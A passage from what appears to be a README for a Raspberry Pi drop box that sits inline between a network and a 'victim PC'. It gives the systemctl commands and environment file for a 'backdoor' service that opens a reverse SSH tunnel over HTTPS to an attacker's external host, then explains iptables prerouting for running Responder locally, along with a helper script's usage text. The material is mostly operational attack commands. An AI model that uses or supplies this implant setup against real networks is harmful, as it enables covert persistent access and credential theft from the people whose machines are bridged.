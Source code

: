 The "EnvironmentFile" parameter is important here, it specifies the details for constructing the SSH session specific in the "ExecStart" parameter. As the path is appened is an "%i", a service is enabled and started for every remote host you desire. For example, we start the backdoor server that we want to communicate to an external machine (AWS, DigitalOcean, etc), where 1.2.3.4 is our extrenal machine:

```sh
systemctl enable backdoor@1.2.3.4
systemctl start backdoor@1.2.3.4
```
And the subsequent environment file, titled "backdoor@1.2.3.4", looks like:

```sh
TARGET=1.2.3.4
LOCAL_PORT=19999
REMOTE_PORT=22
```

When systemctl starts the specific backdoor service, it will utilize the ssh config file and the environment file to create and HTTPS tunnel to your external machine, then tunnel a reverse SSH session through the HTTPS tunnel.
At this point, SSH access to the Raspberry Pi can be achieved by running the following command on the external machine:

```sh
ssh user@127.0.0.1 -p 19999
```

##### 5) Running tools locally.
There comes a time where you may want to run tools locally on the Pi. There is an issue with running tools locally that don't create states within iptables - such as responder. Because the Pi assumes the IP of the victim PC, any traffic that doesn't have a state associated with it will most likely be routed over the bridge and to the victim PC. For example, if you are using responder, all poisoned requests wont make it back to responder, instead they are routed to the victim PC. To get around this issue, we need to create prerouting rules in iptables for all the ports we want to be routed to the Pi, regardless of state. Keep in mind, this will prevent legitimate traffic on any prerouted port from reaching the victim PC...if that's a bid deal for you. In order to speed up the process of creating and tearing down the appropriate iptables rules, the accompanying script has been created for your pleasure:

```sh
./create_fw_rules.py -h
usage: create_fw_rules.py [-h] -t {custom,responder} -cip COMPIP
                          [-bip BRIDGEIP] [-bint BRINT] [-p PORT [PORT ...]]
                          -a {up,down}

Create firewall rules for local tools. Prerouting rules to take traffic from
bridge and send it to Pi. Example: ./create_fw_rules.py -t custom -cip
10.0.1.1 -bip 169.254.66.66 -bint br0 -p 80 443 2233 -a up

optional arguments:
  -h, --help            show this help message and exit
  -t {custom,responder}, --type {custom,responder}
                        Specifc tools to build firewall rules for, or create
                        custom rules
  -cip COMPIP, --compIP COMPIP
                        IP address of Pi and victim machine. HINT: They are
                        the same.
  -bip BRIDGEIP, --bridgeIP BRIDGEIP
                        IP address of bridge
  -bint BRINT, --brint BRINT
                        Bridge interface
  -p PORT [PORT ...], --port PORT [PORT ...]
                        List of ports to create firwall rules for, can be one
                        or more ports: -p 80 443 8443
  -a {up,down}, --action {up,down}
                        Create or tear down specific rule sets
```